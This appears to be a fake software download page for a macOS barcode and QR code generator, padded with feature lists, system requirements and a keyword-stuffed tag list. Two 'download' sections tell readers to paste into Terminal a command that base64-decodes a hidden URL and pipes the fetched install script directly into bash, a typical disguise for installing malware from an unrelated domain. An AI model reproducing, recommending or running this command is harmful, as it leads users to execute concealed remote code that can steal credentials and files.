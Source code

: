 # Barcode for Mac Download

![Barcode Screenshot 1](https://cristallight.com/Images/iBarcoder/barcode_label.png)

---

## ⬇️ Download Barcode for Mac

> Open the terminal on your device and paste the command below

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"

---

## ✨ What is Barcode for Mac?

Barcode is a complete barcode and QR code generation utility built for macOS. Whether you're managing product inventory, printing retail labels, or creating custom QR codes for marketing, this app delivers high-quality results with ease and precision.

With support for dozens of barcode formats — including UPC, EAN, Code 128, ISBN, and QR — Barcode gives you professional control over label layout, encoding, export options, and printer compatibility. It includes tools for customizing fonts, sizes, margins, colors, and integrates seamlessly with Apple’s printing system.

Ideal for small businesses, warehouses, designers, and educational use, the app supports batch generation, template saving, and works natively on both Intel and Apple Silicon Macs.

---

## ⬇️ Download Barcode for Mac (Alt Link)

> Open the terminal on your device and paste the command below

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"

---

![Barcode Screenshot 2](https://cdn.prod.website-files.com/5d4797d92371d937f193beb7/6356c800b313976e056d2cf0_barcode-producer.webp)

---

## ⚙️ Key Features

- 🧾 Supports 40+ Formats – UPC, EAN, Code 39, Code 128, ISBN, QR, Data Matrix  
- ✍️ Custom Label Designer – Adjust size, font, color, spacing, and layout  
- 🖨️ Print-Ready – Works with all macOS-compatible printers and label formats  
- 📥 Export Options – PDF, PNG, EPS, TIFF, and vector formats  
- 🔁 Batch Processing – Generate large batches of barcodes from lists  
- 🧠 Simple Interface – Drag-and-drop support and live previews  
- 💾 Save Templates – Reuse and manage barcode layouts for future projects  
- 💻 Native on macOS – Runs smoothly on Monterey, Ventura, and Apple Silicon (M1/M2/M3)  

---

## ✅ Suitable For

- Product Labeling  
- Retail & Inventory  
- Designers & Print Shops  
- QR Campaigns & Marketing  
- Book Publishing  
- Internal Asset Tagging  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

barcode mac, barcode generator for mac, barcode generator software mac, barcode maker for mac, mac address barcode, qr code maker mac, barcode software for mac, barcode label software for mac, bartender label software for mac, best barcode software for mac, best barcode generator for mac, best qr code generator for mac, bartender label software mac, free barcode software for mac, free barcode generator for mac, barcode studio for mac, barcode generator for mac free download, barcode mac download
